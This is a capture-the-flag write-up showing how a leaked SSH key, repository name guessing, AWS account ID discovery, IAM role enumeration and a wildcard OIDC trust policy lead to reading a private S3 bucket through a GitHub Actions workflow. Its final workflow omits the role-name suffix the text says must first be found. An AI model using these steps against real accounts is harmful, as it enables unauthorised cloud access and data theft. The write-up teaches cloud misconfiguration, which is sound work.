


# Writeup Just A Private Key

## TLDR :
- Find Github username via the private key
- Bruteforce the repositories of the user and clone test repository
- Find the account id via the public bucket
- Use the account id to assume role using github actions and get the flag

## 1. Starting Point: The Private Key

You begin with a private SSH key (`id_rsa`) provided as part of the challenge. The key itself doesn’t immediately reveal useful information, but it’s the gateway to accessing a GitHub account.

## 2. Deriving the Public Key

Since SSH keys come in pairs, you first extract the public key from the provided private key. This is done using:

```bash
$ ssh-keygen -yf id_rsa 
```

The output is a standard SSH public key in OpenSSH format:
```sh
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDnLpqq0w6xBx3PdKonaGYAefOwBPSNqvpX0a04xIAO1m6YPmLnz0KTHQTuIYlugAQZsyr9fNpkYTVSZ5AU344SY4MfbJa4o5DztGsVlAS94O6gd1ku7BKwaj+sFCMgWm3AAI5hJWD0z/tcRQq/rjWxIbGL48A13rIYy7oB0uwNHLdXA8G1N8V0XY2vTUttZoBFFusP1DlfDicuWZJXnVSJT+Xhs6zuA+QaqHWPn50a+Z9+9nLU6luyaSxz2XW3LJGzlcH/rpzukE2doxSYm2P/HFCBICSCFdSpG0T10dfAeoORVBf4IGXX07eRniVcAZuwFTDhsMC9IMtBcHB2hcFU5nXvTfAwsGBQ/MTp/DnjzZ3Cdnra6u8AlBs9ixGPvnAipRCrWYAbfz+NETuAAhf9wq7NGo6JqYlQTsS6jLTltUeFIsHyQH886WO4YPSEA8P7RBLPcIV8VUlFTnrvYjUjNEOmFq3NnRGvAE7bKm0a5BMtTHT/De0Cbb97kNbT8c0= user@pwnme
```

Even though the public key doesn’t contain any obvious hints like a username, knowing that GitHub allows users to authenticate with SSH keys is the clue that leads to the next step.

## 3. Discovering the Associated GitHub Username

GitHub supports SSH key-based authentication. When a user adds an SSH key to their GitHub account, GitHub can use it to authenticate you. By configuring your local SSH client to use the provided private key for GitHub, you can “speak” as that user.

### 1. Update Your SSH Config:
Add the following lines to your ~/.ssh/config so that GitHub knows which key to use:

<ins>File: </ins> `~/.ssh/config`

```bash
Host github.com
    HostName github.com
    PreferredAuthentications publickey
    IdentityFile /home/user/id_rsa
```

### 2. Test the Connection:
Running the command:

```bash
$ ssh -T git@github.com
```

produces the following output:
```bash
Hi SuperCatEmployee! You've successfully authenticated, but GitHub does not provide shell access.
```

This tells you that the SSH key is linked to the GitHub user `SuperCatEmployee`.

## 4. Brute Forcing the User’s Repositories

Now that you have the GitHub username, the next goal is to find repositories belonging to that account. GitHub does not have a "list all repositories" feature via SSH, but you can check if a repository exists using the `git ls-remote` command.

The Strategy:
- **Wordlist-Based Repository Guessing**:
  Prepare a list of common repository names (like test, demo, project, etc.).
- **Automate the Checks**:
  Create a script (check_repos.sh) that iterates over each word in the wordlist and runs:

```bash
$ git ls-remote git@github.com:SuperCatEmployee/<repo-name>.git
```

If the repository exists, the command returns a result rather than the error `"ERROR: Repository not found"`.

<ins>File: </ins> `check_repos.sh`

```bash
#!/bin/bash

if [ "$#" -ne 2 ]; then
    echo "Usage: $0 <username> <wordlist>"
    exit 1
fi

USERNAME=$1
WORDLIST=$2

if [ ! -f "$WORDLIST" ]; then
    echo "The file $WORDLIST does not exist."
    exit 1
fi

echo "Bruteforcing the repositories..."
while IFS= read -r LINE; do
    OUTPUT=$(git ls-remote git@github.com:"$USERNAME"/"$LINE".git 2>&1)
    if [[ ! $OUTPUT == *"ERROR: Repository not found"* ]]; then
        echo "The repo $LINE exists"
        echo "Clone the repo : git clone git@github.com:$USERNAME/$LINE.git"
    fi
done < "$WORDLIST"
```

Now we have the script we need a wordlist, so we can just ask to ChatGPT to generate a wordlist.



<ins>File: </ins> `wordlist.txt`

```
hello-world
awesome
sample
demo
test
project
website
blog
dotfiles
tutorial
starter
playground
scripts
sandbox
api
backend
frontend
app
notes
config
``` 

When you run:

```bash
./check_repos.sh SuperCatEmployee wordlist.txt
```

the script finds that the repository named test exists. You then clone it:

```bash
$ git clone git@github.com:SuperCatEmployee/test.git
```

## 5. Analyzing the Cloned Repository

Inside the cloned test repository, you encounter a `README.md` file that explains the infrastructure being deployed by `Terraform`. The project uses Terraform scripts to set up a simulated AWS environment. Among the various resources, there are:
- **S3 Buckets**: Both public and private buckets are deployed.
- **IAM Roles and Policies**: In particular, there is a role set up for GitHub Actions (pwnme-github-role).
- **Networking Components, Compute Resources, etc.**: These are less relevant for the flag retrieval.

The key file for your purposes is `main.tf`, which defines the AWS resources including the IAM roles and the S3 buckets.

## 6. Retrieving the AWS Account ID

The Terraform script creates both a public and a private S3 bucket. The public bucket is not secured and can be used to retrieve information such as the AWS account ID. To do this, you use a tool like [s3-account-search](https://github.com/WeAreCloudar/s3-account-search).

How It Works:
- **Public Bucket Search**:
    It uses the `S3:ResourceAccount` Policy Condition Key. This condition restricts access based on the S3 bucket an account is in.
    If we start with access to an object and write a condition with an “Allow” on exactly one account ID, we can determine if this bucket is in this account.

For example, running:

```bash
$ s3-account-search arn:aws:iam::MY_OWN_ACCOUNT_ID:role/s3-searcher pwnme-public-assets
Starting search (this can take a while)
found: 9
found: 94
found: 941
found: 9413
found: 94137
found: 941377
found: 9413771
found: 94137714
found: 941377144
found: 9413771440
found: 94137714406
found: 941377144061
```

Ultimately revealing `941377144061` — this is the AWS account ID where the infrastructure is deployed.

## 7. Exploiting the OIDC and IAM Role Configuration

#### The OIDC Provider:

In `main.tf`, there is an AWS IAM OIDC provider defined:

```
resource "aws_iam_openid_connect_provider" "github" {
  url             = "https://token.actions.githubusercontent.com"
  client_id_list  = ["sts.amazonaws.com"]
  thumbprint_list = ["6938fd4d98bab03faadb97b34396831e3780aea1"]
}
```

This provider enables GitHub Actions to authenticate with AWS using OIDC tokens.

#### The Role for GitHub Actions:

An IAM role is defined to be assumable by the OIDC provider. Its trust policy (assume role policy) includes a condition that restricts usage to repositories whose name contains `pwnme-github-test`:

<ins>File: </ins> `test/main.tf`

```
resource "aws_iam_role" "github_actions_role" {
  name = "pwnme-github-role"
  assume_role_policy = jsonencode({
    Version   = "2012-10-17",
    Statement = [
      {
        Effect    = "Allow",
        Principal = { Federated = aws_iam_openid_connect_provider.github.arn },
        Action    = "sts:AssumeRoleWithWebIdentity",
        Condition = {
          StringEquals = {
            "token.actions.githubusercontent.com:aud" = "sts.amazonaws.com"
          },
          StringLike = {
            "token.actions.githubusercontent.com:sub" = "repo:*/*pwnme-github-test:*"
          }
        }
      }
    ]
  })
}

```

**Important**:
The role name is not static; it includes a random suffix, generated by :

<ins>File: </ins> `test/main.tf`

```
resource "random_integer" "role_suffix" {
  min = 100
  max = 999
}
```

This gives a name like `pwnme-github-role-123`, for example.

#### Policy Attached to the Role:

The role has an attached policy that permits listing and retrieving objects from the private S3 bucket (`pwnme-private-assets`):

<ins>File: </ins> `test/main.tf`

```
resource "aws_iam_role_policy" "s3_read_policy" {
  name   = "pwnme-s3-read-policy"
  role   = aws_iam_role.github_actions_role.id
  policy = jsonencode({
    Version   = "2012-10-17",
    Statement = [
      {
        Effect   = "Allow",
        Action   = ["s3:ListBucket"],
        Resource = aws_s3_bucket.private_assets.arn
      },
      {
        Effect   = "Allow",
        Action   = ["s3:GetObject"],
        Resource = "${aws_s3_bucket.private_assets.arn}/*"
      }
    ]
  })
}
```

Now that we have the account id and the role name, we can exploit the other misconfiguration in this terraform script
In the `main.tf` file, we find an `aws_iam_openid_connect_provider` resource, which allows us to create an OIDC provider.

<ins>File: </ins> `test/main.tf`

```
resource "aws_iam_openid_connect_provider" "github" {
  url             = "https://token.actions.githubusercontent.com"
  client_id_list  = ["sts.amazonaws.com"]
  thumbprint_list = ["6938fd4d98bab03faadb97b34396831e3780aea1"]
}
```

Thus, by crafting a GitHub Actions workflow that “pretends” to be coming from a repository named `pwnme-github-test`, you can assume this role and access the private bucket.


## 8. Role Enumeration with Random Suffix

The role for GitHub Actions has a random part (an integer between 100 and 999). To be able to assume it, you need to determine its exact name.

When you configure or update an IAM role's trust policy, you define which AWS resources or services are allowed to assume that role and obtain temporary credentials. The trust policy includes a principal (which can be a role or user from the same or a different account) in the following format:
- For a role:
`arn:aws:iam::account_id:role/role_name`
- For a user:
`arn:aws:iam::account_id:user/user_name`

AWS validates the trust policy during creation or update. Here’s what happens:
- **If the specified principal exists**:
The policy is accepted, and the trust relationship is established without errors.
- **If the specified principal does not exist**:
AWS returns an error indicating an "Invalid principal" (e.g., `MalformedPolicyDocument`), because it cannot validate a non-existent resource.

This mechanism can be used to brute-force cross-account roles or users.

### Generate a Wordlist of Possible Names

Use the following command to generate all possible`names:

```bash
for i in $(seq 100 999); do echo "pwnme-github-role-$i"; done | tee -a wordlist-role.txt
```

### Enumeration with Pacu

You can then use [Pacu](https://github.com/RhinoSecurityLabs/pacu) to enumerate IAM roles and locate the one that matches.
Run the IAM role enumeration module:
```bash
run iam__enum_roles --account-id 941377144061 --word-list /home/ubuntu/CTF/pwnme/pwnme-2025-quals/misc/just_a_private_key/solve/wordlist-role.txt --role-name solve-challenge
```

This module will test the role names from the wordlist to identify the role actually created (for example, pwnme-github-role-123).

## 9. Crafting the GitHub Actions Workflow

To exploit the misconfiguration, you create a GitHub Actions workflow. The workflow does the following:
1. **Obtain an OIDC Token**:
    The job requests an OIDC token from GitHub Actions by setting:

```yml
permissions:
  id-token: write
  contents: read
```

2. **Assume the Role**:
    Using the AWS Actions credential configuration, the workflow assumes the role using the token. In the workflow, you configure AWS credentials with:

```yml
- name: Configure AWS Credentials
  uses: aws-actions/configure-aws-credentials@v1
  with:
    aws-region: us-east-1
    role-to-assume: arn:aws:iam::941377144061:role/pwnme-github-role
    role-session-name: OIDCSession
```

Notice that the role ARN includes the AWS account ID that you earlier discovered.

3. **Access the Private Bucket**:
    With the role assumed, you can now use AWS CLI commands. For example, to list the bucket:

```yaml
- name: List Private Assets Bucket
  run: aws s3 ls s3://pwnme-private-assets
```

4. **Retrieve the Flag**:
    Finally, a workflow is set up to download and display the flag file from the private bucket:

```yaml
name: "PwnMe Flag"

on:
  push:
    branches:
      - main

permissions:
  id-token: write
  contents: read

jobs:
  aws:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout
        uses: actions/checkout@v3

      - name: Configure AWS Credentials
        uses: aws-actions/configure-aws-credentials@v1
        with:
          aws-region: us-east-1
          role-to-assume: arn:aws:iam::941377144061:role/pwnme-github-role
          role-session-name: OIDCSession

      - name: Download flag.txt from Private Assets Bucket
        run: aws s3 cp s3://pwnme-private-assets/flag.txt .

      - name: Display flag.txt
        run: cat flag.txt
```

When this workflow runs (triggered by a push), it successfully assumes the `pwnme-github-role` role and retrieves the `flag.txt` file stored in the private bucket.


